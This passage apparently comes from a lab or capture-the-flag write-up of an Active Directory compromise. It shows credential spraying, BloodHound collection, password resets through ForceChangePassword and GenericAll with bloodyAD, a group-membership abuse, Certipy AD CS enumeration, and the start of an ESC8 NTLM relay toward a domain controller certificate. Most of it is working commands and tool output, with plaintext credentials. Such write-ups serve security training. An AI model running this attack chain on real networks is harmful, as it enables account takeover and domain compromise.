

*Appendix A of Confidential.pdf, with svc_scanner, guy.rookie, and O0Aco9FQJQ highlighted*

The script pairs `O0Aco9FQJQ` with `svc_scanner`, and a commented-out command sets the same password on `guy.rookie`. We put the usernames we now have in `users.txt` and the passwords in `passwords.txt`, then test them against the hosts in `hosts.txt`.

```
nxc smb hosts.txt -u 'users.txt' -p 'passwords.txt'
```

```
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-GQCP864) (domain:EC2AMAZ-GQCP864) (signing:False) (SMBv1:None)
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.87.238     445    DC2              [*] Windows Server 2022 Build 20348 x64 (name:DC2) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\xiao.ge:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\guy.rookie:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\svc_scanner:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\staging_admin:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\xiao.ge:Spring_2026_Temp! STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\guy.rookie:Spring_2026_Temp! STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\svc_scanner:Spring_2026_Temp! STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\staging_admin:Spring_2026_Temp! STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\:Spring_2026_Temp! STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [+] EC2AMAZ-GQCP864\xiao.ge:AmBZATVjnH4qo8H4 
SMB         10.1.111.107    445    DC1              [-] dismay.hsm\xiao.ge:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.111.107    445    DC1              [+] dismay.hsm\guy.rookie:O0Aco9FQJQ 
SMB         10.1.87.238     445    DC2              [-] dismay.hsm\xiao.ge:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.87.238     445    DC2              [+] dismay.hsm\guy.rookie:O0Aco9FQJQ 
```



*NetExec testing the usernames and passwords we hold against all three hosts, with guy.rookie valid on both domain controllers*

`guy.rookie` authenticates to both domain controllers with `O0Aco9FQJQ`. Neither recovered password works for any of the accounts on Nexus. NetExec stops at the first valid pair on each host, so `svc_scanner` and `staging_admin` are never tried against DC1 or DC2.

We list `guy.rookie`'s shares across all three hosts.

```
nxc smb hosts.txt -u 'guy.rookie' -p 'O0Aco9FQJQ' --shares
```

```
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-GQCP864) (domain:EC2AMAZ-GQCP864) (signing:False) (SMBv1:None)
SMB         10.1.87.238     445    DC2              [*] Windows Server 2022 Build 20348 x64 (name:DC2) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\guy.rookie:O0Aco9FQJQ STATUS_LOGON_FAILURE 
SMB         10.1.87.238     445    DC2              [+] dismay.hsm\guy.rookie:O0Aco9FQJQ 
SMB         10.1.111.107    445    DC1              [+] dismay.hsm\guy.rookie:O0Aco9FQJQ 
SMB         10.1.87.238     445    DC2              [*] Enumerated shares
SMB         10.1.87.238     445    DC2              Share           Permissions     Remark
SMB         10.1.87.238     445    DC2              -----           -----------     ------
SMB         10.1.87.238     445    DC2              ADMIN$                          Remote Admin
SMB         10.1.87.238     445    DC2              C$                              Default share
SMB         10.1.87.238     445    DC2              CertEnroll      READ            Active Directory Certificate Services share
SMB         10.1.87.238     445    DC2              IPC$            READ            Remote IPC
SMB         10.1.87.238     445    DC2              NETLOGON        READ            Logon server share 
SMB         10.1.87.238     445    DC2              SYSVOL          READ            Logon server share 
SMB         10.1.111.107    445    DC1              [*] Enumerated shares
SMB         10.1.111.107    445    DC1              Share           Permissions     Remark
SMB         10.1.111.107    445    DC1              -----           -----------     ------
SMB         10.1.111.107    445    DC1              ADMIN$                          Remote Admin
SMB         10.1.111.107    445    DC1              C$                              Default share
SMB         10.1.111.107    445    DC1              IPC$            READ            Remote IPC
SMB         10.1.111.107    445    DC1              NETLOGON        READ            Logon server share 
SMB         10.1.111.107    445    DC1              SYSVOL          READ            Logon server share 
SMB         10.1.111.107    445    DC1              Tools
```



*Validating guy.rookie credentials with NetExec*

Nexus rejects the account, and both domain controllers give READ on `IPC$`, `NETLOGON`, and `SYSVOL`. DC1 also lists a non-default `Tools` share with no access, and DC2 lists `CertEnroll`, which tells us AD CS is deployed there. Before going after either, we collect BloodHound data.

## BloodHound Enumeration

One valid credential is enough to read the directory. We point NetExec at DC1 for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.111.107 -u 'guy.rookie' -p 'O0Aco9FQJQ' --bloodhound --collection All --dns-server 10.1.111.107
```

```
LDAP        10.1.111.107    389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:dismay.hsm) (signing:None) (channel binding:Never) 
LDAP        10.1.111.107    389    DC1              [+] dismay.hsm\guy.rookie:O0Aco9FQJQ 
LDAP        10.1.111.107    389    DC1              Resolved collection methods: session, objectprops, dcom, localadmin, rdp, trusts, container, group, acl, psremote
LDAP        10.1.111.107    389    DC1              Done in 0M 17S
LDAP        10.1.111.107    389    DC1              Compressing output into /home/kali/.nxc/logs/DC1_10.1.111.107_2026-11-08_165839_bloodhound.zip
```

We import the data. `guy.rookie` holds `ForceChangePassword` over `jena.yamazaki`.



*BloodHound ForceChangePassword: guy.rookie over jena.yamazaki*

## Access as jena.yamazaki

`ForceChangePassword` sets the password without needing the current one. bloodyAD writes Active Directory object attributes from the command line, and `set password` resets the account to a value we choose.

```
bloodyad --host 10.1.111.107 -d 'dismay.hsm' -u 'guy.rookie' -p 'O0Aco9FQJQ' set password 'jena.yamazaki' '0xB1rdWasHere1337!'
```

```
[+] Password changed successfully!
```

We validate the new password.

```
nxc smb 10.1.111.107 -u 'jena.yamazaki' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.111.107    445    DC1              [+] dismay.hsm\jena.yamazaki:0xB1rdWasHere1337! 
SMB         10.1.111.107    445    DC1              [*] Enumerated shares
SMB         10.1.111.107    445    DC1              Share           Permissions     Remark
SMB         10.1.111.107    445    DC1              -----           -----------     ------
SMB         10.1.111.107    445    DC1              ADMIN$                          Remote Admin
SMB         10.1.111.107    445    DC1              C$                              Default share
SMB         10.1.111.107    445    DC1              IPC$            READ            Remote IPC
SMB         10.1.111.107    445    DC1              NETLOGON        READ            Logon server share 
SMB         10.1.111.107    445    DC1              SYSVOL          READ            Logon server share 
SMB         10.1.111.107    445    DC1              Tools
```



*Validating jena.yamazaki credentials with NetExec*

The new password works.

## Access as mike.silver

BloodHound shows `jena.yamazaki` holds `GenericAll` over `mike.silver`.



*BloodHound GenericAll: jena.yamazaki over mike.silver*

`GenericAll` allows a password reset, so we set one on `mike.silver` the same way.

```
bloodyad --host 10.1.111.107 -d 'dismay.hsm' -u 'jena.yamazaki' -p '0xB1rdWasHere1337!' set password 'mike.silver' '0xB1rdWasHere1337!'
```

```
[+] Password changed successfully!
```

We validate against DC1.

```
nxc smb 10.1.111.107 -u 'mike.silver' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.111.107    445    DC1              [+] dismay.hsm\mike.silver:0xB1rdWasHere1337! 
SMB         10.1.111.107    445    DC1              [*] Enumerated shares
SMB         10.1.111.107    445    DC1              Share           Permissions     Remark
SMB         10.1.111.107    445    DC1              -----           -----------     ------
SMB         10.1.111.107    445    DC1              ADMIN$                          Remote Admin
SMB         10.1.111.107    445    DC1              C$                              Default share
SMB         10.1.111.107    445    DC1              IPC$            READ            Remote IPC
SMB         10.1.111.107    445    DC1              NETLOGON        READ            Logon server share 
SMB         10.1.111.107    445    DC1              SYSVOL          READ            Logon server share 
SMB         10.1.111.107    445    DC1              Tools  
```



*Validating mike.silver credentials with NetExec*

`mike.silver` holds `AddMember` over the `shares_operators` group.



*BloodHound AddMember: mike.silver over shares_operators*

We add the account to the group with bloodyAD.

```
bloodyad --host 10.1.111.107 -d 'dismay.hsm' -u 'mike.silver' -p '0xB1rdWasHere1337!' add groupMember 'shares_operators' 'mike.silver'
```

```
[+] mike.silver added to shares_operators
```

The account's membership list confirms the add.

```
bloodyad --host 10.1.111.107 -d 'dismay.hsm' -u 'mike.silver' -p '0xB1rdWasHere1337!' get membership 'mike.silver'
```

```

distinguishedName: CN=Users,CN=Builtin,DC=dismay,DC=hsm
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Domain Users,CN=Users,DC=dismay,DC=hsm
objectSid: S-1-5-21-1359501962-4064634841-3558559731-513
sAMAccountName: Domain Users

distinguishedName: CN=User_Provisioning_Operators,CN=Users,DC=dismay,DC=hsm
objectSid: S-1-5-21-1359501962-4064634841-3558559731-1107
sAMAccountName: User_Provisioning_Operators

distinguishedName: CN=shares_operators,CN=Users,DC=dismay,DC=hsm
objectSid: S-1-5-21-1359501962-4064634841-3558559731-1113
sAMAccountName: shares_operators
```



*bloodyAD listing mike.silver's groups, now including shares_operators*

Listing the shares again across all three hosts shows what changed.

```
nxc smb hosts.txt -u 'mike.silver' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-GQCP864) (domain:EC2AMAZ-GQCP864) (signing:False) (SMBv1:None)
SMB         10.1.87.238     445    DC2              [*] Windows Server 2022 Build 20348 x64 (name:DC2) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [-] EC2AMAZ-GQCP864\mike.silver:0xB1rdWasHere1337! STATUS_LOGON_FAILURE 
SMB         10.1.87.238     445    DC2              [+] dismay.hsm\mike.silver:0xB1rdWasHere1337! 
SMB         10.1.111.107    445    DC1              [+] dismay.hsm\mike.silver:0xB1rdWasHere1337! 
SMB         10.1.87.238     445    DC2              [*] Enumerated shares
SMB         10.1.87.238     445    DC2              Share           Permissions     Remark
SMB         10.1.87.238     445    DC2              -----           -----------     ------
SMB         10.1.87.238     445    DC2              ADMIN$                          Remote Admin
SMB         10.1.87.238     445    DC2              C$                              Default share
SMB         10.1.87.238     445    DC2              CertEnroll      READ            Active Directory Certificate Services share
SMB         10.1.87.238     445    DC2              IPC$            READ            Remote IPC
SMB         10.1.87.238     445    DC2              NETLOGON        READ            Logon server share 
SMB         10.1.87.238     445    DC2              SYSVOL          READ            Logon server share 
SMB         10.1.111.107    445    DC1              [*] Enumerated shares
SMB         10.1.111.107    445    DC1              Share           Permissions     Remark
SMB         10.1.111.107    445    DC1              -----           -----------     ------
SMB         10.1.111.107    445    DC1              ADMIN$                          Remote Admin
SMB         10.1.111.107    445    DC1              C$                              Default share
SMB         10.1.111.107    445    DC1              IPC$            READ            Remote IPC
SMB         10.1.111.107    445    DC1              NETLOGON        READ            Logon server share 
SMB         10.1.111.107    445    DC1              SYSVOL          READ            Logon server share 
SMB         10.1.111.107    445    DC1              Tools           READ,WRITE
```



*The mike.silver share listing across all three hosts after the group add, with READ and WRITE on Tools and READ on CertEnroll*

Nexus rejects the account, and on DC1 `mike.silver` now holds READ and WRITE on `Tools`. DC2 lists `CertEnroll` here too, so we check AD CS with Certipy.

## Certipy Enumeration

Any authenticated account can run certipy find, so we point it at DC2 as `mike.silver`.

```
certipy-ad find -u 'mike.silver' -p '0xB1rdWasHere1337!' -dc-ip 10.1.87.238 -vulnerable -stdout
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'dismay-DC2-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'dismay-DC2-CA'
[*] Checking web enrollment for CA 'dismay-DC2-CA' @ 'DC2.dismay.hsm'
[!] Error checking web enrollment: [Errno 104] Connection reset by peer
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : dismay-DC2-CA
    DNS Name                            : DC2.dismay.hsm
    Certificate Subject                 : CN=dismay-DC2-CA, DC=dismay, DC=hsm
    Certificate Serial Number           : 5EA6EE1EAB2DF09345DA0E3710165C06
    Certificate Validity Start          : 2025-12-12 13:32:01+00:00
    Certificate Validity End            : 2030-12-12 13:41:10+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : DISMAY.HSM\Administrators
      Access Rights
        ManageCa                        : DISMAY.HSM\Administrators
                                          DISMAY.HSM\Domain Admins
                                          DISMAY.HSM\Enterprise Admins
        ManageCertificates              : DISMAY.HSM\Administrators
                                          DISMAY.HSM\Domain Admins
                                          DISMAY.HSM\Enterprise Admins
        Enroll                          : DISMAY.HSM\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
```



*Certipy flagging ESC8 on dismay-DC2-CA, with web enrollment enabled over HTTP and not HTTPS*

The CA is `dismay-DC2-CA` on `DC2.dismay.hsm`, the issuer named on the LDAP certificates in both domain controller scans. The web enrollment check fails on a connection reset, but the CA configuration reports HTTP enrollment enabled and HTTPS disabled, and Certipy flags ESC8.

## Access as DC1$

[ESC8](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) is an AD CS misconfiguration where the HTTP certificate enrollment endpoint accepts NTLM without channel binding. We coerce the DC into authenticating to us and relay that authentication straight through to the endpoint, which issues a certificate on the DC's behalf. The CA here is on DC2, so its web enrollment endpoint is the relay target, and we coerce DC1, because a certificate for its machine account lets us act as a domain controller, and a domain controller can replicate the directory. The relay is cross-protocol, SMB to HTTP. The weakness is in how web enrollment handles authentication, not in any template.

The relayed identity is `DC1$`, and domain controllers typically hold enrollment rights on the `DomainController` template, so we name it with `-template` and start Certipy's relay against DC2.

```
certipy-ad relay -target 'http://10.1.87.238' -template 'DomainController'
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/impacket/mssql/version.py:182: SyntaxWarning: 'return' in a 'finally' block
  return string
[*] Targeting http://10.1.87.238/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
```

